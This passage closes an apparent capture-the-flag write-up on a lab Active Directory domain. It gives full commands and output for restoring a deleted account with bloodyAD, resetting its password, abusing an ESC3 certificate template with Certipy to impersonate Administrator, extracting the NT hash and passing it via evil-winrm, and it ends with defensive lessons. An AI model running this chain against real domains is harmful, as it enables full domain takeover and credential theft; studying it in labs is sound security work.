Let me know once the account has been removed and when you have identified a candidate for the role.

Regards,
Mitch R.
```



*Email confirming sam.h was deleted and held the CA management role*

The email confirms `sam.h` was the account with certificate management rights and that it was deleted rather than disabled.

## Access as sam.h

A deleted object is not gone immediately, it moves to the AD recycle bin, so we check what `oscar.m` can write.

```
bloodyad --host SG-DC01.shadowgate.local -d shadowgate.local -u oscar.m -p '0xB1rdWasHere1337' get writable
```

```
distinguishedName: CN=Users,DC=shadowgate,DC=local
permission: CREATE_CHILD

distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=shadowgate,DC=local
permission: WRITE

distinguishedName: CN=oscar.m,CN=Users,DC=shadowgate,DC=local
permission: WRITE

distinguishedName: CN=sam.h\0ADEL:c9316c03-4a09-4d46-9db0-f45925e154f1,CN=Deleted Objects,DC=shadowgate,DC=local
permission: CREATE_CHILD; WRITE
OWNER: WRITE
DACL: WRITE
```



*bloodyAD showing oscar.m holds WRITE over the deleted sam.h object*

`oscar.m` holds `WRITE` over the deleted `sam.h` object in the recycle bin, which is enough to restore it. We run the restore.

```
bloodyad --host SG-DC01.shadowgate.local -d shadowgate.local -u oscar.m -p '0xB1rdWasHere1337' set restore 'sam.h'
```

```
[+] sam.h has been restored successfully under CN=sam.h,CN=Users,DC=shadowgate,DC=local
```

The account is back in the Users container. We hold `WRITE` over the object, so we set a password on it to take control.

```
bloodyad --host SG-DC01.shadowgate.local -d shadowgate.local -u oscar.m -p '0xB1rdWasHere1337' set password 'sam.h' '0xB1rdWasHere1337'
```

```
[+] Password changed successfully!
```



*bloodyAD restoring sam.h and setting a new password*

## Shell as Administrator (root.txt)

The CA permissions earlier are scoped to `sam.h`, so we rerun Certipy as that account.

```
certipy-ad find -u 'sam.h@shadowgate.local' -p '0xB1rdWasHere1337' -dc-ip 10.1.24.100 -target SG-DC01.shadowgate.local -ldap-scheme ldap -stdout -vulnerable
```

```
Certificate Authorities
  0
    CA Name                             : Shadowgate-CA
    DNS Name                            : SG-DC01.shadowgate.local
    Certificate Subject                 : CN=Shadowgate-CA, DC=shadowgate, DC=local
    Certificate Serial Number           : 3DADB967D3C30DB94A9620C07D4332B0
    Certificate Validity Start          : 2025-12-07 17:37:04+00:00
    Certificate Validity End            : 2124-12-07 17:47:04+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : SHADOWGATE.LOCAL\Administrators
      Access Rights
        Enroll                          : SHADOWGATE.LOCAL\Authenticated Users
                                          SHADOWGATE.LOCAL\sam.h
        ManageCa                        : SHADOWGATE.LOCAL\Domain Admins
                                          SHADOWGATE.LOCAL\Enterprise Admins
                                          SHADOWGATE.LOCAL\Administrators
                                          SHADOWGATE.LOCAL\sam.h
        ManageCertificates              : SHADOWGATE.LOCAL\Domain Admins
                                          SHADOWGATE.LOCAL\Enterprise Admins
                                          SHADOWGATE.LOCAL\Administrators
        Read                            : SHADOWGATE.LOCAL\sam.h
    [+] User Enrollable Principals      : SHADOWGATE.LOCAL\Authenticated Users
                                          SHADOWGATE.LOCAL\sam.h
    [+] User ACL Principals             : SHADOWGATE.LOCAL\sam.h
    [!] Vulnerabilities
      ESC7                              : User has dangerous permissions.
Certificate Templates
  0
    Template Name                       : Shadowgate-EnrollmentAgent
    Display Name                        : Shadowgate-EnrollmentAgent
    Certificate Authorities             : Shadowgate-CA
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : True
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireUpn
                                          SubjectRequireDirectoryPath
    Enrollment Flag                     : AutoEnrollment
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Certificate Request Agent
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 2 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2025-12-07T17:51:15+00:00
    Template Last Modified              : 2025-12-07T17:51:19+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SHADOWGATE.LOCAL\sam.h
                                          SHADOWGATE.LOCAL\Domain Admins
                                          SHADOWGATE.LOCAL\Enterprise Admins
      Object Control Permissions
        Owner                           : SHADOWGATE.LOCAL\Administrator
        Full Control Principals         : SHADOWGATE.LOCAL\Domain Admins
                                          SHADOWGATE.LOCAL\Enterprise Admins
        Write Owner Principals          : SHADOWGATE.LOCAL\Domain Admins
                                          SHADOWGATE.LOCAL\Enterprise Admins
        Write Dacl Principals           : SHADOWGATE.LOCAL\Domain Admins
                                          SHADOWGATE.LOCAL\Enterprise Admins
        Write Property Enroll           : SHADOWGATE.LOCAL\Domain Admins
                                          SHADOWGATE.LOCAL\Enterprise Admins
    [+] User Enrollable Principals      : SHADOWGATE.LOCAL\sam.h
    [!] Vulnerabilities
      ESC3                              : Template has Certificate Request Agent EKU set.
```



*Certipy as sam.h flags the Shadowgate-EnrollmentAgent template as ESC3*

Certipy flags two findings. On the CA itself, `sam.h`'s ManageCA right comes back as ESC7, a dangerous permission that can be abused to approve requests and issue certificates directly. We take the template finding instead: `Shadowgate-EnrollmentAgent` is flagged ESC3, a template with the Certificate Request Agent EKU. A certificate from it can sign enrollment requests on behalf of other users, and the default `User` template accepts those signed requests and carries a client authentication EKU, which makes the certificate it issues usable to authenticate. `sam.h` has enrollment rights on the agent template, so we first request an enrollment agent certificate for ourselves.

```
certipy-ad req -u 'sam.h@shadowgate.local' -p '0xB1rdWasHere1337' -dc-ip 10.1.24.100 -target 'SG-DC01.shadowgate.local' -ca 'Shadowgate-CA' -template 'Shadowgate-EnrollmentAgent' -ldap-scheme ldap
```

```
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 14
[*] Successfully requested certificate
[*] Got certificate with UPN 'sam.h@shadowgate.local'
[*] Certificate object SID is 'S-1-5-21-2396436576-3267128377-3646372360-1114'
[*] Saving certificate and private key to 'sam.h.pfx'
[*] Wrote certificate and private key to 'sam.h.pfx'
```



*Certipy requesting the enrollment agent certificate as sam.h*

With that agent certificate we enroll in the default `User` template on behalf of `Administrator`, producing a certificate that authenticates as the domain admin.

```
certipy-ad req -u 'sam.h@shadowgate.local' -p '0xB1rdWasHere1337' -dc-ip 10.1.24.100 -target 'SG-DC01.shadowgate.local' -ca 'Shadowgate-CA' -template 'User' -pfx 'sam.h.pfx' -on-behalf-of 'SHADOWGATE\Administrator' -ldap-scheme ldap
```

```
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 17
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator@shadowgate.local'
[*] Certificate object SID is 'S-1-5-21-2396436576-3267128377-3646372360-500'
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```



*Certipy enrolling a certificate on behalf of Administrator with the agent certificate*

We authenticate with the Administrator certificate over PKINIT, the Kerberos extension that lets a certificate stand in for a password, and recover the NT hash.

```
certipy-ad auth -pfx 'administrator.pfx' -dc-ip '10.1.24.100' -ldap-scheme ldap
```

```
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator@shadowgate.local'
[*]     Security Extension SID: 'S-1-5-21-2396436576-3267128377-3646372360-500'
[*] Using principal: 'administrator@shadowgate.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@shadowgate.local': aad3b435b51404eeaad3b435b51404ee:a07b7bbc98b574afe52bbeb5d07d9c0a
```



*Certipy PKINIT: TGT and NT hash recovered for Administrator*

Certipy gets that hash by requesting a Kerberos ticket to itself and reading the credential blob out of the ticket's PAC. NTLM authenticates with the hash itself, so there is nothing left to crack. We pass it over WinRM.

```
evil-winrm -i '10.1.24.100' -u 'Administrator' -H 'a07b7bbc98b574afe52bbeb5d07d9c0a'
```



*Evil-WinRM session as Administrator on SG-DC01 with root.txt*

We grab `root.txt` from the Administrator desktop and the domain is fully compromised.

## Final Thoughts

The chain is long, but the part I sat with was the missing user. Certipy as `oscar.m` kept pointing certificate rights at a `sam.h` that never showed up in BloodHound, and the termination email explained why. Restoring the account from the recycle bin only worked because it was deleted rather than purged, and that is the move I will remember here.

The portal login was a textbook SQL injection bypass that parameterized queries would have stopped. The ACL chain rested on a stack of object-level rights, and rights like these need auditing on a schedule rather than at build time. Deleted accounts holding sensitive permissions should be purged, not left recoverable. A Certificate Request Agent EKU paired with a permissive client-auth template like `User` lets one enrollee request a certificate as anyone in the domain. Manager approval on the agent template would have stopped it, or the template should not exist.

— 0xB1rd
